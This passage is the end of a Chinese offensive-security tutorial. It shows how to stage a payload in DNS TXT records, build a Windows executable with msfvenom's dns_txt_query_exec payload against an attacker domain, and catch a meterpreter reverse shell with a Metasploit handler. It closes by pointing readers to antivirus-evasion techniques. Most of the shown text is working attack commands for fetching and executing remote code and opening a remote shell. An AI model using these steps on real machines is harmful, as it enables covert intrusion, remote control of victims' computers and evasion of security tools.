 输出如下：

![Alt text](http://drops.javaweb.org/uploads/images/e31a289bfe402d4bd7032fba8a96ea14364a5470.jpg)

将这三行分别添加到a.domain,b.domain,c.domain的TXT记录中:

![Alt text](http://drops.javaweb.org/uploads/images/aa4d75411a5dd8451d0f2e43cb3dd1a8539538c5.jpg)

生成exe:

```
☁  ~  sudo msfvenom -p windows/dns_txt_query_exec DNSZONE=evi1cg.me -f exe > test.exe

```

msf开启监听：

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST x.x.x.x
LHOST => x.x.x.x
msf exploit(handler) > set LPORT 8887
LPORT => 8887
msf exploit(handler) > exploit

```

运行exe，获得meterpreter:

![Alt text](http://drops.javaweb.org/uploads/images/9b2b7c1689f968c5ae75c5ae7b11910c6894169c.jpg)

至于免杀，可以直接生成c格式的shellcode,然后按照[打造免杀payload](http://zone.wooyun.org/content/22796)来做。

0x05 小结
=====

本文主要介绍一种执行命令的方式以及nishang的脚本使用，希望能对大家有帮助。

本文由evi1cg原创并首发于乌云drops，转载请注明
